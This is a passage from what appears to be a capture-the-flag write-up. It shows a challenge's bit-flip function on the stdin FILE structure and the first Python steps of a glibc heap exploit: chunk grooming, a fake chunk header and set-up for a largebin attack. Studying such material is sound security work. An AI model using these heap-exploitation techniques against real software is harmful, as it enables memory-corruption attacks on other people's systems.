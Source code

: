 
```c
void slam() {
  size_t idx;
  size_t pos;
  puts("is this rowhammer? is this a cosmic ray?");
  puts("whatever, that's all you'll get!");
  if (get_num("index",&idx,sizeof(*stdin))) {
    return;
  }

  if (idx < 64) {
    puts("[-] invalid index");
    return;
  }

  if (get_num("pos",&pos,8)) {
    return;
  }
  unsigned char byte = ((char*)stdin)[idx];
  unsigned char mask = ((1<<8)-1) & ~(1<<pos);
  byte = (byte & mask) | (~byte & (~mask));
  ((char*)stdin)[idx] = byte;
}
```
Slam menu is given to flip one bit from `_IO_2_1_stdout_._IO_buf_end` and within `_IO_2_1_stdout_`. Given that stdin is buffered and therefore its buffer is allocated on heap, flipping a proper bit of `_IO_2_1_stdout_._IO_buf_end` leads to heap bof.

Now let's follow the exploit scenario above with these primitives.

<br/>

## Exploit
```python
# => future unsorted bin chunk
alloc(0,0x450,b"")  
alloc(3, 10, b"") # consolidation barrier

# => future largebin chunk
alloc(1,0x500,b"A"*(0x60)+p64(0xc0+0x60)+p64(0x20))
alloc(3, 10, b"") # consolidation barrier
```
First, we allocate two chunks each for unsorted bin and largebin. Note that a fake chunk header is placed in proper offset of largebin chunk, which will later be used to bypass security check on unsorted bin.  

```python
alloc(2, 0x4f0, b"") # used later to trigger largebin attack
free(1)
alloc(1, 0x580, b"") # move previous 1 to largebin
free(0) # move 0 to unsorted bin
```
After, we allocate a chunk which will be used to trigger largebin attack later. Freeing 1 and allocating larger chunk will move 1(previous one) to largebin. And free 0 to put it into unsorted bin.
